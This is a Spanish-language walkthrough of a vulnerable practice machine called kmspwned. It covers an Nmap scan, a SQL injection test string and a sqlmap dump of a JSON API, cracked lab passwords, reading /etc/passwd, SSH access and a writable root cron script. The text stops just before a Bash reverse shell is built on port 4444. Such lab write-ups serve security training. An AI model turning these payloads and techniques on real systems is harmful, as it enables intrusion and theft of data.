<h1 align="center">kmspwned</h1>

  

## ❓ ¿Qué es kmspwned?

kmspwned es una máquina Linux vulnerable en la que se realiza reconocimiento con Nmap, se explota una inyección SQL en una API JSON para obtener credenciales y acceder por SSH como carlos, y finalmente se escala a root modificando un script de copias de seguridad ejecutado periódicamente mediante cron.

> [!NOTE]
>
> Puede descargar la máquina a través del **[enlace Mega](https://mega.nz/file/gIEyyb7T#UfXblU8qgB7Rgs13LKaUWafB6s6E8O-834ixFG4g388)**.

## 🔝 Despliegue de kmspwned

Al descargar la máquina, es necesario descomprimir el archivo para obtener los ficheros utilizados durante su despliegue. Para ello, se ejecuta el siguiente comando:

**unzip kmspwned.zip**



Tras descomprimir el archivo, se obtienen dos ficheros principales:

* **auto_deploy.sh:** script Bash utilizado para desplegar la máquina localmente.
* **kmspwned.tar:** imagen que contiene la máquina vulnerable.

El script **auto_deploy.sh** cuenta inicialmente con permisos **644**, por lo que es necesario concederle permisos de ejecución:

**chmod +x auto_deploy.sh**

Una vez asignados los permisos, se despliega la máquina mediante el siguiente comando:

**./auto_deploy.sh kmspwned.tar**



## 🔎 Fase de descubrimiento

Una vez desplegada la máquina, se abre una nueva terminal para comenzar la fase de reconocimiento. Como se conoce la dirección IP del objetivo, **172.17.0.2**, se realiza un escaneo con Nmap:

**nmap -sC -sV -T5 172.17.0.2**

| Argumento | Significado |
| --- | --- |
| **-sC** | Ejecuta los scripts predeterminados de Nmap para realizar comprobaciones comunes. |
| **-sV** | Detecta las versiones de los servicios identificados. |
| **-T5** | Establece una velocidad de escaneo alta. |
| **172.17.0.2** | Dirección IP de la máquina objetivo. |



> [!NOTE]
>
> Se utiliza una temporización agresiva porque el laboratorio se ejecuta en un entorno controlado, donde no es necesario reducir el ruido generado. En una auditoría real, sería recomendable adaptar la velocidad y el tipo de escaneo a las reglas de enfrentamiento establecidas.

Durante el escaneo se identifican los siguientes servicios activos:

* **SSH (puerto 22):** servicio de acceso remoto al sistema.
* **HTTP (puerto 80):** aplicación web de la máquina.

A continuación, se accede al servicio HTTP desde el navegador. La página principal corresponde a una plataforma de dominios y servicios de hosting.



Al revisar el código fuente de la página se encuentra un comentario que revela la existencia de un panel de administración en la ruta **/admin/**. Aunque todavía no se dispone de credenciales, esta información se conserva para fases posteriores.



Para analizar las funcionalidades disponibles como usuario autenticado, se crea una cuenta desde el formulario de registro.



Después de iniciar sesión, se accede a un panel que incluye un verificador de extensiones de dominio. Al introducir la cadena **' OR 1=1-- -** se muestran resultados que no deberían devolverse con una búsqueda normal, lo que indica que el parámetro podría ser vulnerable a una inyección SQL.



Para comprender cómo se realiza la consulta, se revisa el código fuente del panel. La función JavaScript utiliza **fetch()** para enviar una petición **POST** en formato JSON al endpoint **/lib/kms_api.php**. El valor introducido por el usuario se incluye dentro del parámetro **extension**.



## 🖥️ Acceso al servidor

Para explotar la inyección SQL de forma controlada, se captura una petición legítima con Burp Suite. En la configuración de proxy del navegador se establece como intermediario la dirección **172.17.0.1** y el puerto **8080**, correspondientes al listener configurado en Burp Suite.



En la pestaña **Proxy** de Burp Suite se activa la opción **Intercept on** y se realiza una búsqueda normal desde el verificador de extensiones. De esta forma se obtiene una petición válida que conserva las cabeceras, la cookie de sesión y el cuerpo JSON esperado por la API.

> [!NOTE]
>
> Se captura una consulta normal en lugar de introducir manualmente el payload de SQL Injection. Posteriormente, sqlmap se encargará de modificar el parámetro vulnerable y probar las diferentes técnicas de inyección sin alterar manualmente la estructura JSON.

La petición completa se copia en un fichero de texto llamado **peti.txt**. En este caso, se utiliza Nano para crear el archivo:

**nano peti.txt**



A continuación, se proporciona la petición a sqlmap mediante el parámetro **-r** y se solicita el volcado de la información disponible:

**sqlmap -r peti.txt --batch --dump**

| Argumento | Significado |
| --- | --- |
| **-r peti.txt** | Carga una petición HTTP completa desde un fichero. |
| **--batch** | Ejecuta la herramienta de forma automática utilizando las respuestas predeterminadas. |
| **--dump** | Extrae los registros de las bases de datos accesibles mediante la inyección. |

Durante el análisis, sqlmap identifica que el parámetro JSON **extension** es vulnerable mediante dos técnicas:

* **Time-based blind:** la aplicación no muestra directamente el resultado de la consulta, por lo que la herramienta introduce condiciones que provocan retrasos intencionados, por ejemplo mediante **SLEEP()**. Comparando el tiempo de respuesta, sqlmap puede determinar si cada condición es verdadera o falsa y reconstruir la información de la base de datos.
* **UNION query:** permite añadir una consulta **UNION SELECT** a la consulta original para combinar sus resultados con datos seleccionados por el atacante. Para que funcione, ambas consultas deben devolver un número compatible de columnas y tipos de datos.



La explotación permite acceder a la base de datos **servicloud_erp** y extraer información de sus diferentes tablas. En **sc_clientes** se almacena información relacionada con los clientes de la plataforma.



La tabla **sc_extensiones** contiene las extensiones de dominio utilizadas por el verificador y sus datos asociados.



En **sc_flags** aparecen las flags correspondientes al usuario y al administrador de la máquina.



La tabla **sc_facturas** contiene información sobre las facturas registradas en la aplicación.



Una de las tablas más relevantes es **sc_notas**, ya que contiene dos anotaciones internas:

* El panel de administración se encuentra en **/admin/** y sus credenciales están almacenadas en la base de datos.
* Existe un script de copias de seguridad en **/opt/backup.sh** cuyos permisos deben revisarse.



La tabla **web_usuarios** contiene las cuentas creadas desde el formulario público de la aplicación, incluida la cuenta utilizada durante la enumeración.



Por último, la tabla **sc_usuarios** contiene las cuentas administrativas. sqlmap identifica los hashes MD5 y consigue resolverlos mediante su proceso de cracking basado en diccionario:

* **admin:** chocolate
* **carlos:** password1
* **ana:** ana1234



Con las credenciales **admin:chocolate**, se accede al panel localizado anteriormente en **/admin/**. El panel incluye una consola de diagnóstico que permite ejecutar comandos del sistema operativo.



Desde esta consola se ejecuta el siguiente comando para enumerar los usuarios locales del sistema:

**cat /etc/passwd**

Entre las cuentas identificadas aparece el usuario **carlos**, cuyo nombre coincide con una de las cuentas obtenidas de la base de datos.



Como ya se dispone de la contraseña **password1** asociada a este usuario, se comprueba si existe reutilización de credenciales en el servicio SSH:

**ssh carlos@172.17.0.2**

La autenticación es correcta y se obtiene acceso al servidor como **carlos**. El comando **id** confirma que la sesión pertenece a un usuario sin privilegios.



## 🔓 Escalada de privilegios

La nota encontrada en la base de datos hacía referencia al fichero **/opt/backup.sh**, por lo que se accede al directorio **/opt** y se revisan sus permisos:

**ls -la /opt**

El script pertenece a **root**, pero cuenta con permisos **777** (**-rwxrwxrwx**). Esto significa que cualquier usuario del sistema puede leerlo, modificarlo y ejecutarlo.



Al revisar su contenido se observa que el script genera un archivo comprimido con el contenido de **/var/www/html/** y registra la ejecución en **/var/log/backup.log**.

**cat /opt/backup.sh**



La posibilidad de modificar un script propiedad de **root** no implica por sí sola una escalada de privilegios. Para que sea explotable, el fichero debe ser ejecutado posteriormente por un proceso con privilegios elevados. Por este motivo, se revisa la configuración global de cron:

**cat /etc/crontab**

En la última línea aparece la siguiente tarea:

**\* \* \* \* \* root /opt/backup.sh**

Los cinco asteriscos indican que el script se ejecuta **cada minuto**, mientras que el campo **root** especifica que la tarea se lanza con los máximos privilegios. Como el usuario **carlos** puede modificar el fichero, cualquier comando añadido será ejecutado posteriormente como **root**.



Para aprovechar esta configuración insegura, se genera una reverse shell en Bash. En **[RevShells](https://www.revshells.com/)** se selecciona la plantilla **Bash -i**, se introduce la dirección IP de la máquina atacante y se utiliza el puerto **4444**.

